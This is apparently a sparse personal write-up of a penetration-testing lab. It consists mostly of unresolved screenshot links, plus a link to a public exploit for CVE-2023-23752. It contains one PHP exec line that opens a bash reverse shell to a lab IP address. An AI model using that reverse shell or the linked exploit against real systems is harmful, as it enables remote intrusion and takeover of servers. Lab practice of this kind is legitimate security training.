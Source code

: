 ![](../../Images/Pasted%20image%2020240417120537.png)![](../../Images/Pasted%20image%2020240417120746.png)
![](../../Images/Pasted%20image%2020240417120805.png)
![](../../Images/Pasted%20image%2020240417120959.png)
![](../../Images/Pasted%20image%2020240417121058.png)
![](../../../Pasted%20image%2020240417124006.png)

![](../../../Pasted%20image%2020240417125157.png)
![](../../../Pasted%20image%2020240417124230.png)
![](../../../Pasted%20image%2020240417124521.png)
![](../../../Pasted%20image%2020240417124758.png)
https://github.com/Acceis/exploit-CVE-2023-23752
![](../../../Pasted%20image%2020240417125436.png)
![](../../../Pasted%20image%2020240417125601.png)
![](../../../Pasted%20image%2020240417125659.png)
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'");
![](../../../Pasted%20image%2020240417130732.png)
